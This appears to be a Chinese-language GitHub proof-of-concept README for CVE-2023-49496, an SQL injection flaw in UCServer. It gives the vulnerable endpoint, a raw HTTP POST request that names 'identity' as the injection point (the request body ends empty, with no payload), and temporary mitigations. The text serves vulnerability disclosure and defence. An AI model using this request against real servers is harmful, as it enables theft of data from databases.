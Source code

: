 # CVE-2023-49496_PoC

## 描述
UCServer是一款先进的融合通讯服务器。 上海澍品信息科技有限公司UCServer存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## POC
```python
POST /login/wwx_corpInfo/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://example.com/
Content-Length: 132
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: example.com
Proxy-Connection: Keep-alive

&identity=
```

## 演示
POST 请求体中 "identity" 为注入点

![](images/demo1.jpg "")

## 临时解决方案
<font style="color:rgb(62, 62, 62);background-color:rgb(239, 239, 239);">开启网站防火墙；禁止任何 IP 访问 "/login/wwx_corpInfo/" 路径；禁止数据库接受外部远程连接；升级数据库版本。</font>

